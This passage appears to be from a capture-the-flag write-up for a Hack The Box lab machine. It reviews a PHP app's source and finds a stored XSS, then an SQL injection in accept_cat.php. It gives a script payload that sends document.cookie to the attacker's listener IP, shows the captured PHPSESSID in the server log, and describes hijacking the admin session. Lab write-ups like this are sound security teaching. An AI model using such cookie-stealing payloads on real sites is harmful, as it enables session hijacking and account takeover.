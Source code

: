 Here we see that all the data is displayed back for that admin to inspect.

All of the returned data is being filtered before inserted to the database, except owner.

```php
$stmt_insert = $pdo->prepare("INSERT INTO users (username, email, password) VALUES (:username, :email, :password)");
$stmt_insert->execute([':username' => $username, ':email' => $email, ':password' => $password]);
```

Here is a possibility for a stored XSS.

### XSS

Let's register a user with an xss payload as a username.

```js
<script>document.location='http://10.10.16.4/='+document.cookie;</script>
```

![xss](5.png)

Now I'll go to contest and submit another cat then I'll start an http server to see if I can catch anything.

```terminal
┌──[10.10.16.4]-[sirius💀parrot]-[25-07-05 3:31]-[~/ctf/htb/cat/git]
└──╼[★]$ www
[sudo] password for sirius: 
Serving HTTP on 0.0.0.0 port 80 (http://0.0.0.0:80/) ...
10.10.11.53 - - [05/Jul/2025 03:46:37] code 404, message File not found
10.10.11.53 - - [05/Jul/2025 03:46:37] "GET /=PHPSESSID=78jhhe181o19mscvtff6g1p71r HTTP/1.1" 404 -
10.10.11.53 - - [05/Jul/2025 03:46:38] code 404, message File not found
10.10.11.53 - - [05/Jul/2025 03:46:38] "GET /favicon.ico HTTP/1.1" 404 -
```

We got back a cookie!

I'll change my current cookie to the one we just got and refresh the page.

![admin](6.png)

We got access as admin!

## **Foothold**

### SQLi

Back to source code review, on accept_cat.php we find the following line

```php
$sql_insert = "INSERT INTO accepted_cats (name) VALUES ('$cat_name')";
```

Here we see that cat_name is passed directly to the sql query without any sanitization. This is a possible sql injection.

I intercepted a request on burp:
